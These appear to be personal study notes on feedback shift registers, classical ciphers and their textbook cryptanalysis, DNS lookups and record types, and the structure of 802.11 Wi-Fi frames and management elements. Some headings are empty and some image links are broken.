Linear Feedback Shift Registers are FSRs which are equipped with a linear feedback function, namely a procedure which XORs together some of the bits of the current state. The bits that get XOR-ed together are defined by a set of boolean feedback coefficients. It is important that the feedback coefficients are not allowed to mutate throughout any update, since they define the feedback function. The number of bits in the bit array of the register is called its degree.

For a register consisting of bits \( s_{n-1},...,s_0 \) and feedback coefficients \( c_{n-1},...,c_0 \), the state of the LFSR is updated by shifting the register to the right and replacing the left-most bit with the output of the feedback function. Namely, if the register state at time \( t \) is described by \( s_{n-1}^{(t)},...,{}_{t}s_0^{(t)} \), the state after an update (also called a clock tick) would be given by:
$$s_i^{(t+1)} \colon= s_{i+1}^{(t)}, \text{where } i = 0,...,n-2$$ $$s_{n-1}^{(t+1)} \colon= \bigoplus_{i=0}^{n-1} c_i s_i^{(t)}$$
For each clock tick, the LFSR outputs the value of the right-most bit, \( s_0 \). Thus, if the initial state of the LFSR is \( s_{n-1}^{(0)},...,s_0^{(t)} \), then the first \( n \) bits of the output stream will be the sequence \( s_0^{(0)},...,s_{n-1}^{(0)} \), with the next output bit being \( s_{n-1}^{(1)} = \bigoplus_{i=0}^{n-1} c_i s_i^{(0)} \).
The maximal period of an LFSR is \( 2^n-1 \), where \( n \) is the degree of the LFSR, for the all-zeros state can never be mutated via a XOR operation. It is paramount that the correct feedback coefficients are chosen in order to ensure a maximal period. Luckily, there is a procedure for accomplishing just that. Starting from 1 for the left-most bit moving up to \( n \) for the right-most bit, we construct a polynomial of the form \( p(x) = 1 + x + x^2 + x^3 + ... + x^n \), where the term \( x^i \) is only included if the \( i \)th bit has a feedback coefficient equal to 1 (it is included in the XOR operation). Now, the period is maximal if and only if this polynomial is primitive. A polynomial is primitive when it is irreducible (factorisation is impossible) and also satisfies additional mathematical criteria, which I unfortunately do not comprehend myself, but you can read more about them here.
LFSRs are inherently insecure due to their linearity. Given known feedback coefficients, the first \( n \) output bits will reveal the initial state and from then on it is possible to determine the entirety of all future bits. Even with unknown feedback coefficients, an attacker needs at most \( 2n \) output bits to determine both the feedback coefficients and the initial state. If we denote the first \( n \) output bits as \( y_0,...,y_{n-1} \) and the next \( n \) bits as \( y_n,...,y_{2n-1} \), we can construct the following system of linear equations:
$$\begin{align} y_n &= c_{n-1} y_{n-1} \bigoplus \cdots \bigoplus c_0 y_0 \newline \vdots \newline y_{2n-1} &= c_{n-1} y_{2n-2} \bigoplus \cdots \bigoplus c_0 y_{n-1} \end{align}$$
It is possible to show that for a maximal period LFSR the equations in the system are linearly independent (\( \mod 2 \)) and can be solved through basic linear algebra.
Introducing Nonlinearity
LFSRs can be strengthen by introducing nonlinearity in the encryption process by different means. This means that it is not only XOR operations that are used, but also logical ANDs and ORs. For example, it is possible to make the feedback loop nonlinear by setting the value of the leftmost bit at each clock tick to be a nonlinear function of the bits in the previous state. If the register's state at time \( t \) is \( s_{n-1}^{(t)},...,s_0^{(t)} \), the state at \( t+1 \) would be
$$s_i^{(t+1)} \colon= s_{i+1}^{(t)}, \text{where } i = 0,...,n-2$$ $$s_{n-1}^{(t+1)} \colon= g(s_{n-1}^{(t)},...,s_0^{(t)})$$
As before, the rightmost bit, \( s_0 \) is outputted at each clock tick. In order for the FSR to be secure, the feedback function, \( g \) should be balanced in the sense that \( \text{Pr}[g( s_{n-1},...,s_0 ) = 1] \approx \frac{1}{2} \).

Unfortunately, there is a downside to NFSRs (Nonlinear FSRs). There is no efficient way to determine an NFSR's period or even whether its period is maximal. It is however, possible to mitigate this by combining NFSRs and LFSRs, which is what Grain-128a does.
Filtered FSRs
In the above example, the FSR itself is nonlinear, since the way that the leftmost is altered at each clock tick is determined by a nonlinear function. However, it is also possible to keep the FSR linear and instead pass its output to a filter function, \( g \). Instead of outputting the rightmost bit, \( s_0 \), the entire register is passed to the filter function and the output of the register is determined by the output of \( g \).

Whilst filtered FSRs are stronger than LFSRs, their underlying partial linearity makes them vulnerable to complex attacks such as algebraic attacks, cube attacks, and fast correlation attacks.
The Shift Cipher
One of the oldest known ciphers is known as Caesar's cipher. Julius Caesar encrypted his messages by shifting every letter of the alphabet three spaces forward and looping back when the end of the alphabet is reached. Consequently, A would be mapped to D and Z would be mapped to C.
An immediate problem with this cipher is the lack of a key - the shift amount is always the same. A natural extension of the cipher would then be to let the shift amount vary, turning it into a key whose possible values are the numbers between 0 and 25. Therefore, the key space is \( K \equiv \{ 0, ..., 25 \} \).
An encryption algorithm \( Enc_k \) would take a plaintext \( m \), shift its letters forwards by \( k \) positions and spit out a ciphertext \( c \). In contrast, a decryption algorithm \( Dec_k \) would take the ciphertext \( c \) and shift its letters backwards by \( k \) places to retrieve the original plaintext. If we map the alphabet to the set \( {0,...,25} \) (\( a = 0, b = 1 \), etc.), a more mathematical description is obtained. Encryption of any message \( m = m_1 \cdot\cdot\cdot m_l \) (\( m_i \in {0,...,25} \)) using the key \( k \) is given by
$$Enc_k (m_1 \cdot\cdot\cdot m_l) = c_1 \cdot\cdot\cdot c_l, \hspace{1cm} where \hspace{1mm} c_i = [(m_i + k) \mod 26]$$
The notation \( [a \mod N] \) is the remainder of \( a \) upon division by \( N \) where \( 0\leq[a \mod N] < N \) and \( \cdot\cdot\cdot \) denotes concatenation and not multiplication. Decryption of a cyphertext \( c = c_1 \cdot\cdot\cdot c_l \) using a key \( k \) would then be given by
$$Dec_k (c_1 \cdot\cdot\cdot c_l) = m_1 \cdot\cdot\cdot m_l, \hspace{1cm} where \hspace{1mm} m_i = [(c_i - k) \mod 26]$$
It is only natural to now ask, is this cipher secure? And the simple answer is no. There are only 26 possible keys and so the key-space is not sufficiently big. You can even go through all 26 possible keys with a given ciphertext by hand and check which resulting plaintext makes sense. Most likely, there will be only one and so you would have recovered the original message.
Another method to crack this cipher is by using frequency analysis. Since the shift cipher is a one-to-one mapping on a letter-by-letter basis, the frequency distribution of letters is preserved. For example, the most common letter in English is the letter "e". If we analyse the ciphertext and discover that the most common letter there is "g", then we know that most likely the letter "g" is the letter "e" encrypted with the given key. From this we can calculate the key to be 2 (however, the plaintext, and therefore the ciphertext, may actually deviate from this distribution, so it is not with 100% certainty that the key is 2). We can also perform the same procedure with the rest of the letters in the ciphertext and retrieve the original plaintext. This process can also be automated with some math.

Let's once again map the alphabet with the integers 0 through 25 and also this time let \( p_i \) (\( 0 \leq p_i \leq 1 \)) denote the frequency of the \( i \)th letter. Using the above table, we can calculate that
$$ \sum_{i=0}^{25} p_i^2 \approx 0.065$$
Now, let \( q_i \) denote the frequency of the \( i \)th letter in the ciphertext - this is just equal to the number of occurrences of the \( i \)th letter divided by the length of the ciphertext. If the key is \( k \), then \( p_i \) should be approximately equal to \( q_{i+k} \), since the \( i \)th letter gets mapped to the \( (i+k) \)th letter (technically, these should be \( i+k \mod 26 \), but that's too cumbersome to write here). Therefore, if we compute
$$ I_j \overset{\mathrm{def}}{=} \sum_{i=0}^{25} p_i \cdot q_{i+j}$$
for every value of \( j \in \{0,...,25\} \), then \( I_k \) should be approximately equal to 0.065, where \( k \) is the actual key. For all \( j \neq k \), \( I_j \) would be different from 0.065. This ultimately leads to a way to recover the original key that is fairly easy to automate.
The Vigenère Cipher
This cipher is a more advanced version of the shift cipher. It is a poly-alphabetic shift cipher. Unlike the previous ciphers, it does not define a fixed mapping on a letter-by-letter basis. Instead, it maps blocks of letters whose size depends on the key length. For example, ab could be mapped to xy, ac to zt, and aa to bc. Moreover, identical blocks will be mapped to different blocks depending on their relative position in the plaintext. ab could once be mapped to xy, but then when ab appears again, it may be mapped to ci.
In the Vigenère cipher the key is no longer a single number, but rather a string of letters, where each letter is again mapped to the integers \( \{0,...,25\} \). The key is then repeatedly overlaid with the plaintext and each letter in the plaintext is shifted by the amount denoted by the key letter it has been matched with.
Plaintext: the golden sun shone brightly, bathing the beach in its warm sunlight
Key: cok ecokec oke cokec okecokec, okecoke cok ecoke co kec okec okecokec
Ciphertext: vvo kqznip ger uvyrg pbmivdpa, pkxjwxk vvo fgoml kb sxu kkvo gernwqlv
Given a known key length, also called a period, \( t \), a ciphertext \( c = c_1 \cdot\cdot\cdot c_l \) can be divided into parts, each with length \( t \). Therefore, ciphertext characters with the same relative position in each of these groups with length \( t \) would have all been encrypted using the same shift amount. In the above example, for the groups theg and olde, t and o would have both been encrypted with c, h and l with o and so on. Such characters are said to comprise a stream. Stated in a more mathematical way, for all \( j \in \{1,...,t\} \), the ciphertext characters \( c_j,c_{j+t},c_{j+2t},... \) have all been encrypted by shifting the corresponding plaintext character by \( k_j \) positions, where \( k_j \) is the \( j \)th character in the key \( k \). It is now possible to use frequency analysis on each stream and check what shift amount yields the correct probability distribution.
If the period \( t \) is not known, it may be possible to determine it by using Kasiski's method. Initially, you must identify repeated patterns of length 2-3 characters. Kasiski observed that the distance between these repeated patterns (given that they are not coincidental) is a multiple of the period \( t \). In the above example, the distance between the two vvos is 32 which is 8 times the period 4.
There is also a more automatable (if this is even a word) approach. Recall that, given a period \( t \), the ciphertext characters in the first stream $$c_1,c_{1+t},c_{1+2t},...$$ are the upshot of encrypting the corresponding plaintext characters with the same shift amount. Therefore, the frequencies of the characters in the stream will be close to the character frequencies in the English language in some shifted order.
If we let \( q_i \) denote the observed frequency of the \( i \)th letter in the stream (\( q_i = \frac{\text{number of occurrences of the ith letter of the alphabet}}{\text{length of the stream}} \)), we would expect that \( q_{i+j \mod 26} \approx p_i \), where \( j \) is the shift amount and \( p_i \) is the frequency of the \( i \)th letter of the alphabet in a standard English text. Therefore, the sequence \( q_0,q_1,...q_{25} \) is simply the sequence \( p_0,p_1,...,p_{25} \) shifted by \( j \).
Referring back to previous analysis, we get that
$$\sum_{i=0}^{25}q_i^2=\sum_{i=0}^{25}p_i^2 \approx 0.065$$ We can easily find the period \( t \). For every \( \tau =1,2,... \) and the stream \( c_1,c_{1+\tau},c_{1+2\tau},... \) we can define
$$S_{\tau} \overset{\mathrm{def}}{=} \sum_{i=0}^{25}q_i^2$$
When \( \tau=t \), it is expected that \( S_{\tau} \approx 0.065 \). In the rest of the cases, we would expect that the character distribution in the stream is fairly uniform (recall that the Vigenère cipher smooths out character distributions) and so
$$S_{\tau} = \sum_{i=0}^{25} \left(\frac{1}{26}\right)^2 \approx 0.038$$ Ergo, the smallest value \( \tau \), for which \( S_{\tau} \approx 0.065 \), is likely the period \( t \). This can be further validated by performing the same procedure on the subsequent streams in the ciphertext such as \( c_2,c_{2+\tau},c_{2+2\tau},... \) and so on.
Networking
Computer networking refers to the study, management, and organisation of computer networks.
Introduction
A computer network is a network which allows for the exchange of resources and information between devies connected to the network. These device span a range of types, sizes, and functions.
Network Devices
Switch
Introduction
DNS
Introduction
Computers connected to the Internet have a numerical identifier - called an Internet Protocol Address (IP Address) - which is used to communicate with this machine. However, remembering a 32-bit number for each computer you want to connect to - even if it's formatted nicely into four separate sections - isn't practical at all. As such, a systematic way of resolving this issue was a created - a sort of lookup table for IP addresses, known as the Domain Name System.
What is the DNS?
The Domain Name System (or DNS for short) is a decentrialised database which provides answers to queries for domain names. Such a query is for example "What is the IP address of google.com? " When such a request is sent out, it will go through the DNS and eventually return with an IP address (if such was found). This saves the average user from having to remember a myriad different IPs for each website they want to visit.
The DNS Hierarchy
The DNS utilises a hierarchical structure for both storing and serving requested information.
/../../Resources/Images/DNSHierarchy.png)
At the top of the hierarchy are positioned the root name servers. These store and serve information about the top-level domains (TLDs) such as .net, .com, and .org. The TLD servers provide information about domains which use their corresponding TLD - .com servers contain information about domains such as google.com or duckduckgo.com. They won't give you the IP addresses for these hosts, but will instead point you in the right direction - to another DNS server.
The DNS can be thought of as a file system - one where the addresses are read from right to left and instead of forwards slashes, dots are used. The root is represented by a single dot (.), which is usually not visible. Next follow the top-level domains - similar to directories. Going further, we get second level domains and then subdomains, followed by hosts.
Dissecting a Basic DNS Query
Typing a domain name - such as google.com - into your browser will cause your operating system to attempt to resolve that domain name, or in other words - determine its IP address. It will first check locally for an answer as this is the fastest option. It will look into the local cache and the /etc/hosts file (on UNIX-like system, or C:\Windows\System32\drivers\etc\hosts on Windows). If an answer is not found, the DNS request will be forwarded to your DNS server, which will usually be your home router. Your DNS server may have the answer cached because someone on your network recently queried the same domain. If not, the DNS server will contain an IP address for another name server where you can forward your request - for example the DNS server at your ISP. It's very unlikely that your ISP's name server won't have a cached answer, given the amount of queries that constantly go through it. However, if this happens to be the case, the ISP's name server will carry out further requests on your behalf - exactly how your router forwards the query to your ISP's name server. Name servers can be configured to perform such lookups recursively or not.
If your ISP's name server does not know the IP for the server responsible for .com domains, it will ask one of the 13 root name servers, which are designated with the letters A through M). In reality, there are more than 13 physical machines handling these requests. More information about the root name servers you can find here.
This process will continue until you are forwarded to the name server responsible for the domain you are looking for. This name server will provide you with the IP address of your desired domain, which will be cached, allowing quicker access later.
Zones and Authority
Some name servers are authoritative in a particular subsection of the DNS - they answer queries only for domains in a particular space. Only one name server, known as the Start of Authority (SOA) could give a decisive answer for a particular query. Other name servers may have the answer cached, but only if they have previously requested it in the span of the time-to-live (TTL).
For example, the SOA for google.com is only responsible for domains in the google.com space. The spaces or name spaces within the DNS are usually referred to as zones of authority or simply zones.
In reality, there is usually more than a single name server for a big company like Google, however, they both do the same job and are considered the SOA. Their names usually go ns1, ns2, and so forth. Should one name server go offline, the next one would take its place in processing queries.
DNS Resource Records
I already mentioned that the DNS is similar to a database - one split up and stored around the globe. The entries in this database are called resource records and are usually stored in a flat-file format. Resource records do not only store IP addresses and hostnames - they contain other useful information, as well. These are the most common different types of resource records (a complete list can be found here):
- Address of Host (A) - the IPv4 address of the host
- Address of Host (AAAA) - the IPv6 address of the host
- Canonical Name (CNAME) - also an alias; two domains might point to the same place, in which case, one would be an alias. Querying the domain in this server will result in the A record.
- Mail Exchanger (MX) - refers to a mail server and can contain either an IP address or a hostname
- Name Server (NS) - contains the name server information for a given zone
- Start of Authority (SOA) - found at the beginning of every zone file, this record is bigger than others and stores the primary name server for the zone, including some other information
- Pointer (PTR) - used for reverse DNS lookups - finding the hostname by providing an IP address
- Text (TXT) - a simple text record used for adding extra functionality to DNS and storing miscellaneous information. Sometimes used by administrators for leaving humand-readable notes.
This is a special domain used for reverse DNS lookups. In the in-addr.arpa domain, IP addresses are represented as a sequence of four decimal numbers separated by dots. The suffix of in-addr.arpa is appended to the IP address. In this domain, however, IP address octets are read from right to left, but the contents of the octets are not. For example, in order to do a reverse lookup on 172.217.169.174, you would use 174.169.217.172.in-addr.arpa. This domain is used for reverse lookups on IPv4 addresses.
For IPv6 addresses, the ip6.arpa domain is used. The address is represented by hex digits in reverse order - each digit looking like a domain name. For example, to do a reverse look up on 2001:db8::567:89ab, you would use b.a.9.8.7.6.5.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.8.b.d.0.1.0.0.2.ip6.arpa.
Introduction
The IEEE 802.11 standard defines the structure of datalink frames in wireless networks. These frames have a more complicated structure than Ethernet ones.
/Resources/Images/WLAN_Frame.svg)
The existence of the last 6 fields in the MAC header is contingent on the type of the frame.
Frame Control
The Frame Control is a 2-byte field, subdivided into 11 subfields, which carries information about the WiFi frame, including its type.
/Resources/Images/WLAN_Frame_Control.svg)
The Protocol Version is 2 bits long and is set to 00 for PV0 (WLAN) or to 01 for PV1 (802.11ah). The revision level is incremented only when there is a fundamental incompatibility between two versions of the standard.
The Type is a 2-bit field which indicates the type of the frame. There are three main times of frames in 802.11 and the values corresponding to each type are the following:
| Value | Type |
|---|---|
00 | Management |
01 | Control |
10 | Data |
11 | Extension |
Each frame type has its own subtypes and the particular one for the frame is specified in the 4-bit Subtype field.
Following are the To Distribution System (ToDS) and the From Distribution System (FromDS) 1-bit fields. They indicate whether traffic is travelling from or to the Distribution System. However, it is really the combination of these bits that is interpreted as meaningful:
| To DS | From DS | Meaning |
|---|---|---|
| 0 | 0 | Station-to-station communication in an IBSS. |
| 0 | 1 | Traffic from AP to station (exiting the DS). |
| 1 | 0 | Traffic from station to AP (entering the DS). |
| 1 | 1 | Traffic from AP to AP (wireless bridging). |
Next is the More Fragments field. If a datagram was fragmented into multiple frames, this field will be set to 1 for all frames except the last one.
Afterwards comes the Retry field. A value of 1 indicates that this frame is a retransmission of a frame which did not receive a confirmation (ACK).
The Power Management field is set to 1 if the station uses power saving mode, which means that periodically shuts down some of its components to preserve power. Frames with this bit set but no actual data are used to inform the AP of the station's power saving mode. The AP will then buffer frames intended for this client.
The More Data field indicates whether or not the AP has more buffered frames to send to a station in power saving mode. Receiving a frame with this bit set to 1 which cause the station to wait to receive all frames from the AP before proceeding with its power saving shenanigans.
The Protected Frame bit is set to 1 when the payload of the frame is encrypted and is 0 otherwise.
Finally, the Order bit should be set to 0 for all frames with the exception of non-QoS data frames. In this case, this bit is set to 1 if a request from a higher layer for the data to be sent using a strictly ordered Class of Service. This tells the receiving station to process the frames in order.
Duration / ID
The Duration / ID is interpreted differently depending on the message type and can either serve as the time (in microseconds, μs) the channel will be dedicated for the transmission of the frame, or an association ID. The latter is only the case in PS-Poll in Legacy Power Management.
When a station receives a frame from another station, it looks at the Duration and sets an internal timer based on it (called a NAV). The station knows that the channel will be busy until the timer reaches 0. Note that the frame's receiver does not update their NAV and the NAV is set to 0 for the frame's sender.
The duration value always refers to the time that will be spent for both the transmission of the frame and its acknowledgment. Thus, the transmitter of the frame will also need to calculate the time it will take to receive an ACK frame. This ACK will have a duration of 0, since the duration field in the original frame already accounts for its transmission time.
The duration for any frame sent during the contention-free period in a PCF is set to 0x8000.
Address 1, 2, 3 & 4
There can be between 1 and 4 MAC addresses in a 802.11 frame. Which addresses are present and their order depend on the message type. An address can be one of the following:
- Destination Address (DA) - the ultimate destination of the frame
- Source Address (SA) - the original sender of the frame
- Receiver Address (RA) - the immediate receiver of the frame
- Transmitter Address (TA) - the immediate sender of the frame
Sequence Control
This 16-bit field is further separated into two fields. The first 4 bits are called the fragment number and the other 12 are called the sequence number. Each frame sent by a particular station must have a different sequence number from rest of the frames sent by this station. When a frame is too large and gets fragmented, the fragment number begins at 0 and is incremented for every fragment.
QoS Control
This 16-bit field is used for Quality of Service control and is only present in data frames of type QoS-data. It is further subdivided into 5 subfields.
/Resources/Images/MAC_Header_QoS.svg)
The first 4 bits are the Traffic Indicator (TID) and it identifies the User Priority (UP) which map to their 802.1Q equivalents. Furthermore, the User Priorities are categorised into 4 QoS Access Categories (AC). 802.11 uses the Enhanced Distributed Channel Access (EDCA) model where each Access Category is mapped to a different queue.
| User Priority (UP) Value | 802.1Q CoS Class | Access Category (AC) | Designation |
|---|---|---|---|
| 1 | BK | AC_BK | Background |
| 2 | - | AC_BK | Background |
| 0 | BE | AC_BE | Best Effort |
| 3 | BE | AC_BE | Best Effort |
| 4 | CL | AC_VI | Video |
| 5 | VI | AC_VI | Video |
| 6 | VO | AC_VO | Voice |
| 7 | NC | AC_VO | Voice |
The actual priority level increases from top to bottom.
| Access Category (AC) | Description |
|---|---|
| Voice | The highest priority. It allows for multiple concurrent VoIP calls with low latency and good voice quality. |
| Video | Supports prioritised video traffic. |
| Best Effort | For traffic from devices which cannot provide QoS capabilities and isn't as sensitive to latency but is affected by big delays, such as Web Browsing. |
| Background | Low-priority traffic with no strict throughput or latency requirements such as file transfers. |
The End of Service Period (EOSP) field is 1 bit in length. When set to 1, it indicates that a client in power saving mode may go to sleep.
The next two bits indicate the Acknowledgement Policy (ACK Policy) and have four possible variants - ACK, No ACK, No Explicit ACK, and Block ACK.
The next bit is reserved for future use.
Bits 8-15 are used to indicate 4 things:
TXOP Limit- this is the transmission operation limit provided by the AP.AP PS Buffer Size- the AP uses this to indicate the PS buffer state for a given client.TXOP Duration Requested- the transmission operation duration desired by the client for its next transmission. The AP may grant less.Queue Size- used by the client to inform the AP of how much buffered traffic it has to send. The AP can use this information to calculate the time necessary for the next transmission to this client.
HT Control
This field was introduced in the 802.11n standard and enable high-throughput operations.
Frame Check Sequence (FCS)
Similarly to Ethernet, this field is used to verify the integrity of the rest of the frame.
Introduction
Management frames render the service of managing the Service Set. They have 3 addresses in their MAC header, which is 24 bytes in size for 802.11a/b/g/, and 28 bytes for 802.11n (additional 4 bytes for the HT Control field). Their type in the Frame Control is indicated by 00. Moreover, management frames are never forwarded to the DS, so they have the FromDS and ToDS bits set to 0 in their Frame Control.
/Management%20Frames/Resources/Images/Management_Frame.svg)
The source and destination MAC addresses are self-explanatory. The third address is the BSS ID which can either be the MAC of the AP or a wildcard value (for probe requests). If 802.11n is used, there is also an HT Control field in the MAC header. The frame body (payload) is comprised of fixed-size fields and variable-size information elements.
There are 12 subtypes of management frames:
| Subtype Bits | Meaning |
|---|---|
0000 | Association Request |
0001 | Association Response |
0010 | Reassociation Request |
0011 | Reassociation Response |
0100 | Probe Request |
0101 | Probe Response |
1000 | Beacon Frame |
1001 | Announcement Traffic Indication Message (ATIM) |
1010 | Disassociation Frame |
1011 | Authentication Frame |
1100 | Deauthentication Frame |
1101 | Action Frame |
1110 | Action - no ACK |
Management Frame Fields
These are fixed-size fields and are typically located at the beginning of the management frame's body.
Capability Information
This is a complex 2-byte field which indicates request or advertised capabilities. This field is present in beacon, probe response, association request, association response, reassociation request, and reassociation response frames.
/Management%20Frames/Resources/Images/Capability_Information.svg)
The ESS & IBSS fields are mutually exclusive. The ESS bit indicates whether the frame is coming from an AP (1) or not (0) and the IBSS fields indicates whether or not the frame is coming form an IBSS station (1) or not (0).
The Privacy field is set to 1 if data confidentiality (AES, TKIP, or WEP) is required and is set to 0 otherwise. The encryption type is actually determined by the RSN field.
Short Preamble is set to 1 if short preambles are supported.
Channel Agility is an optional feature introduced by 802.11b. Its purpose was to reduce interference by periodically shifting the channel up and down a bit but it was never widely adopted.
Spectrum Management is set to 1 to reflect DFS and TPC support.
QoS is set to 1 if the AP supports QoS and is seto to 0 otherwise.
Short Slot Time is used to indicate whether Short Slot Time (9 μs) is used. This indicates that 802.11b is not supported by the AP, since this standard only uses Standard Slot Time (20 μs). If an 802.11b client joins the network, Short Slot Time should be disabled across the entire network until the 802.11b device leaves. Thus, all following frames should have this bit set to 0. For 802.11a, this bit is always set to 0, since Standard Slot Time is not supported, so there is no "long" and therefore no "short" time.
If the APSD set is set to 1, then the AP supports the eponymous feature. If this is set to 0, then the AP only supports Legacy Power Saving Mode. Frames originating from client should always have this bit set to 0, due to network-wide nature of this feature.
DSSS-OFDM provides 54 Mbps speeds in 802.11b/g-
compatible networks. When this bit is set to 1, the DSSS-OFDM mode is allowed.
When the bit is set to 0, this mode is not allowed. This bit is always set to 0 for 802.11a networks.
Status Code Field
This is a 2-byte long field present in Response frames. If set to 0, then the request was successful. Otherwise, the field contains the failure code, where 1 indicates an unspecified failure.
Reason Code Field
This 2-byte field is used to indicate the reason that an unsolicited notification man-
agement frame of type disassociation, deauthentication, DELTS, DELBA, or DLS teardown
was generated. It is only present in frames of the above types when such a frame is sent to a station without the client asking.
Management Frame Information Elements
Manage frames can contain Management Frame Information Elements which are variable-length components and they may or may not be present. The typical structure of an MFIE is an element ID, followed by a length, and then the actual payload. The element ID and the length fields are both 1 bytes long, while the payload may range from 0 to 32 bytes.
/Management%20Frames/Resources/Images/MFIE.svg)
The following Element IDs are defined:
| Element ID | Name |
|---|---|
| 0 | Service Set Identity (SSID) |
| 1 | Supported Rates |
| 2 | FH Parameter Set |
| 3 | DS Parameter Set |
| 4 | CF Parameter Set |
| 5 | Traffic Indication Map (TIM) |
| 6 | IBSS Parameter Set |
| 7 | Country |
| 8 | Hopping Pattern Parameters |
| 9 | Hopping Pattern Table |
| 10 | Request Information |
| 11 | BSS Load |
| 12 - 15 | Reserved |
| 16 | Challenge Text |
| 17 - 31 | Reserved |
| 32 | Power Constraint |
| 33 | Power Capability |
| 34 | Transmit Power Control (TPC) Request |
| 35 | TPC Report |
| 36 | Supported Channels |
| 37 | Channel Switch Announcement |
| 38 | Measurement Request |
| 39 | Measurement Report |
| 40 | Quiet |
| 41 | IBSS DFS |
| 42 | ERP Information |
| 43 - 47 | Reserved |
| 48 | Robust Security Network (RSN) |
| 49 | Reserved |
| 50 | Extended Supported Rates |
| 51 - 220 | Reserved |
| 221 | WPA |
| 222 - 255 | Reserved |
SSID
The SSID element is present in all beacons, probe requests, probe responses, association
requests, and reassociation requests. It has an Element ID of 0. Its length is the length of the SSID string. The SSID string is encoded one character per byte and has a maximum length of 32.
/Management%20Frames/Resources/Images/SSID_MFIE.svg)
Supported Rates & Extended Supported Rates
This element is present in beacons, probe requests, probe responses, and all
association frames. Its component is comprised of a maximum of 8 bytes where each byte describes a single supported rate. Each rate takes the following format in a byte. The last bit is set to 1 if the rate is basic (mandatory) and to 0 if there is simply support for it. The rest of the bits described the data rate in multiples of 500 Kbps. A station willing to join the network must support all the mandatory rates.
/Management%20Frames/Resources/Images/Supported_Rates_MFIE.svg)
If there are more than 8 supported rates, then an Extender Rates Element is also present. This Element can describe up to 255 additional rates in the same fashion as the Supported Rates Element.
/Management%20Frames/Resources/Images/Extended_Supported_Rates_MFIE.svg)
Robust Security Network (RSN)
This element has an ID of 48. It is present in present in beacons, probe responses,
association responses, and reassociation responses, and is utilised with WPA/2/3 in order to determine the authentication and encryption mechanism in use. RSN has several subfields and its length depends on the number of supported mechanisms.
/Management%20Frames/Resources/Images/RSN_MFIE.svg)
The Version subfield is 2 bytes in length and always set to 1.
Next is the Group Cipher Suite descriptor. The first three bytes are an OUI of the vendor (00:0F:AC for 802.11) and the last byte is the suite type. Following is a table of the cipher suites.
| OUI | Suite Type | Description |
|---|---|---|
00:0F:AC | 0 | Use the group cipher suite (for pairwise ciphers only). |
00:0F:AC | 1 | WEP-40 |
00:0F:AC | 2 | TKIP |
00:0F:AC | 3 | Reserved |
00:0F:AC | 4 | CCMP-128 |
00:0F:AC | 5 | WEP-104 |
00:0F:AC | 6 | BIP-CMAC-128 |
00:0F:AC | 7 | Reserved |
00:0F:AC | 8 | GCMP-128 |
00:0F:AC | 9, 10 | GCMP-256 |
00:0F:AC | 11 | BIP-GMAC-128 |
00:0F:AC | 12, 13 | BIP-GMAC-256 |
Next is a 2-byte Pairwise Cipher Suite Count which indicates how many ciphers are in the next field. Each cipher is described by 4 bytes in the Pairwise Cipher Suite List.
The next two fields are similar to the Pairwise Cipher Suite fields, but describe the mechanisms supported for authentication (Authentication & Key Management). The AKM Suite Count defines the number of methods supported. Each method is described by 4 bytes in the AKM Suite List, where the first 3 bytes are again an OUI.
| OUI | Suite Type | Authentication |
|---|---|---|
00:0F:AC | 1 | 802.1X or PMK Caching |
00:0F:AC | 2 | Pre-shared Key (PSK) |
| Vendor OUI | Any | Vendor-specific |
The RSN Capabilities is a 2-byte field. The first 4 bits are flags and the rest must be set to 0. The Preauthentication bit is set by an AP to indicate that it supports preauthentication with other APs in order to move security sessions around. The No Pairwise bit is set station can support a manual WEP key for broadcast data in conjunction with a stronger unicast key, but this should not be used.
The last two fields, PMKID Count and PMKID List, describe a list of PMKs which a client may send to an AP during association in order to speed up the process by bypassing time-consuming authentication. This only works if the AP caches PMKs.
Direct Sequence (DS) Parameter Set
The DS Parameter Set element in used both by DSSS and OFDM system, on both 2.4 GHz and 5 GHz bands. It is a simple field with an important task - it indicates the current channel.
/Management%20Frames/Resources/Images/DS_Parameter_Set_MFIE.svg)
Since 802.11 signals are spread across multiple channel, this indicates the channel that the sender is centering their transmission on. When 802.11n is employed with channel bonding, the secondary channel is indicated in several 802.11n-specific field such as the Secondary Channel element or the 20/40 IBSS Coexistence element.
BSS Load
This element is used only when QoS is supported (when the QoS subfield in the Capability
Information element is enabled) and is often additionally called QBSS Load. It provides information about the network load and is typically sent by APs. Stations avail themselves of this field in order to determine how to roam.
/Management%20Frames/Resources/Images/BSS_Load_MFIE.svg)
The Station Count is an integer indicating the number of stations currently connected to the network.
The Channel Utilisation field is the percentage of time, normalised to 255, that the AP sensed the medium was busy. An AP senses the medium every slot time. At regular inter- vals (every 50 beacons by default)), the AP looks over the last period and counts how many times the
network was seen as busy and how many times it was seen as idle. A simple percentage is then calculated and translated into a 0 to 255 range.
Enhanced Distributed Channel Access (EDCA) Parameter
This element is used only when QoS is supported. In most QoS-enabled networks, this
field is not used, and the same information is provided through the WMM or the WME
vendor-specific elements.
QoS Capability
This element is used only when QoS is supported. It is used as a conjugate to the EDCA
Parameter element when EDCA Parameter is not present. Furthermore, It is utilised by the AP to transmit QoS information to the network. It is a shorter version of the EDCA Parameter Set
element and contains only the QoS information section. In most QoS-enabled networks,
this field is not used, and the same information is provided through the WMM or the
WME vendor-specific elements.
IBSS DFS
IBSSs require a designated owner for the dynamic frequency selection (DFS) algorithm. Thus, this element may be transmitted by management frames in an IBSS.
/Management%20Frames/Resources/Images/IBSS_DFS_MFIE.svg)
The DFS Owner field contains the MAC address of the, well, DFS owner. Should this owner disappear or be lost during a hop, the DFS Recovery Interval will contain a timeout (in TBTTs or beacon intervals) for how long a station not hearing from the DFS owner should wait before selecting its own channel and assuming the role of a DFS owner itself.
The last field is a Channel Map which is a series of members which report what is detected on each channel. A channel map member consists of two bytes - one for the channel number and one for the actual information.
The latter byte is split into five subfields - the last three bits are reserved. The BSS bit will be set to 1 if frames from another network are detected during a measurement period. The OFDM Preamble bit is set if the 802.11a short training sequence is detected, but without being followed by the rest of the frame. The Unidentified Signal bit is set to 1 when the received power is high, but the signal cannot be classified as either a 802.11 network, an OFDM network, or a radar signal. The Radar bit is set to 1 if a radar signal was received during the measurement period. The Unmeasured bit is set to 1 if the channel wasn't measured. In this case, all other bits will naturally be 0.
Country
Since each country is allowed to regulate the allowed channels and power levels, a mechanism was invented for networks to describe these limitations to new stations instead of ceaselessly updating drivers.
/Management%20Frames/Resources/Images/Country_MFIE.svg)
The Country String is a 3-byte ASCII string representing the country of operation. The first two characters are the country's ISO code and the last character is either set to "I" or "O" which distinguishes between indoor and outdoor regulations, respectively.
